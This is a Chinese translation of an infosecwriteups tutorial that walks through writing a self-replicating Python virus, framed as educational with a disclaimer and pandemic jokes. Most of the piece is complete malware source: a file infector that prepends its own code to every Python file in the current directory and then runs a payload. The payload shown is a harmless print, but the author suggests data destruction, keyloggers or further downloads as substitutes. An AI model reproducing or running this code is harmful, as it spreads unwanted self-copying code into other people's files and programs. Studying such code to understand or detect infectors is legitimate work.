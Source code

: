 # 用 Python 制作一个自我复制的病毒|仅用于教育目的

> 原文：<https://infosecwriteups.com/make-a-self-replicating-virus-in-python-bb29404e3f6b?source=collection_archive---------0----------------------->

![](img/6b5a57daa95acc16647c0179370d8ba7.png)

[KOBU 机构](https://unsplash.com/@kobuagency?utm_source=medium&utm_medium=referral)在 [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral) 上拍摄的照片

**合十礼！*肘撞*&*脚抖***

希望你和你的家人在这个不确定和前所未有的时期健康和安全。在这篇文章中，我们将学习如何用 python 制作一个简单的计算机病毒。

这种 python 病毒很像新型冠状病毒病毒，旨在从一个主机传播到另一个主机，并具有自我复制的能力。用更专业的术语来说，我们将编写一个程序，用自我复制代码感染 6 英尺距离(同一目录)内的所有 python 文件，并通过受感染的 python 文件执行恶意活动。

在我们开始之前，请戴上口罩并清洁双手

> **免责声明:本教程仅用于教育目的，无意促进任何非法活动。作者不对所提供信息的任何误用负责。**

# 辅导的

完整的病毒程序基本上有三个部分-

1.  **复制整个病毒程序本身。**
2.  **获取其他 python 文件，用复制代码感染它们。**
3.  **部署有效负载或恶意软件/间谍软件代码。**

为了标记病毒程序的开始和结束，我们需要在代码的第一行和最后一行放置标签。

```
# VIRUS SAYS HI!{ virus code }# VIRUS SAYS BYE!
```

接下来，我们导入所有需要的 python 库。

```
import sys
import glob
```

**第 1 部分:**我们将通过创建一个空数组并动态获取当前文件名来打开和读取它，从而在这里编写自复制代码。

```
virus_code = []

with open(sys.argv[0], 'r') as f:
    lines = f.readlines()
```

现在，我们将定义一个 bool 变量来帮助我们了解要复制的程序区域，即开始和结束标记之间的区域。然后，我们将遍历所有的行，并将它们复制到预先初始化的数组中，直到到达末尾。

```
self_replicating_part = False
for line in lines:
    if line == "# VIRUS SAYS HI!":
        self_replicating_part = True
    if not self_replicating_part:
        virus_code.append(line)
    if line == "# VIRUS SAYS BYE!\n":
        break
```

**第 2 部分:**为了找到当前目录中的所有 python 文件，我们将使用 glob 模块，并根据所需的模式匹配路径名。然后，我们将保存这些文件，并逐个读取它们，以感染我们的病毒代码。

在这里，我们将首先检查文件是否已经被感染，即查看文件是否已经包含开始标记。如果是这样，我们就进入下一个文件，如果不是这样，我们就通过将自我复制的病毒代码添加到现有的文件代码中来感染它，以便保留原来的功能。

```
python_files = glob.glob('*.py') + glob.glob('*.pyw')

for file in python_files:
    with open(file, 'r') as f:
        file_code = f.readlines()

    infected = False

    for line in file_code:
        if line == "# VIRUS SAYS HI!\n":
            infected = True
            break

    if not infected:
        final_code = []
        final_code.extend(virus_code)
        final_code.extend('\n')
        final_code.extend(file_code)

        with open(file, 'w') as f:
            f.writelines(final_code)
```

第三部分:最后，我们需要将我们的恶意代码或有效载荷添加到程序中，充当恶意软件，它可以破坏系统、破坏数据、下载其他病毒、窃取密码([运行键盘记录器](https://medium.com/analytics-vidhya/python-keylogger-tutorial-ef178d02f24a))或者可能接管整个机器。

现在，我们将只是添加一个无害的打印声明***邪恶的笑声***

```
def malicious_code():
    print("YOU HAVE BEEN INFECTED HAHAHA !!!")

malicious_code()
```

我们完了。这是完整的程序放在一起的样子——

```
# VIRUS SAYS HI!

import sys
import glob

virus_code = []

with open(sys.argv[0], 'r') as f:
    lines = f.readlines()

self_replicating_part = False
for line in lines:
    if line == "# VIRUS SAYS HI!":
        self_replicating_part = True
    if not self_replicating_part:
        virus_code.append(line)
    if line == "# VIRUS SAYS BYE!\n":
        break

python_files = glob.glob('*.py') + glob.glob('*.pyw')

for file in python_files:
    with open(file, 'r') as f:
        file_code = f.readlines()

    infected = False

    for line in file_code:
        if line == "# VIRUS SAYS HI!\n":
            infected = True
            break

    if not infected:
        final_code = []
        final_code.extend(virus_code)
        final_code.extend('\n')
        final_code.extend(file_code)

        with open(file, 'w') as f:
            f.writelines(final_code)

def malicious_code():
    print("YOU HAVE BEEN INFECTED HAHAHA !!!")

malicious_code()

# VIRUS SAYS BYE!
```

在同一个目录下创建一些测试文件，小心地执行你自己的自我复制病毒！

![](img/23557f54e6cd3d3ac6480f767aa79ffb.png)

# 结论

用执行大量抽象的高级编程语言编写病毒实用吗？用 python 这样的解释型语言编写一个病毒实用吗？在这种语言中，代码是不隐藏的，任何运行它的人都可以很容易地查看代码。嗯，什么时候编写病毒是一件实际可行的事情…

如果你喜欢这篇文章，并且想学习一些新的东西，请点击拍手按钮告诉我:)

谢谢，保重，不要在家里尝试这个！

> 支持我[https://www.buymeacoffee.com/djrobin17](https://www.buymeacoffee.com/djrobin17)

# 参考

*附注:信息安全领域每天都会出现很多难以跟上的内容。加入我们的* ***每周简讯*** *以 5 篇文章、4 个线程、3 个视频、2 个 Github Repos 和工具以及 1 个* ***工作提醒的形式免费获取所有最新的信息安全趋势！*【https://weekly.infosecwriteups.com/】*[](https://weekly.infosecwriteups.com/)***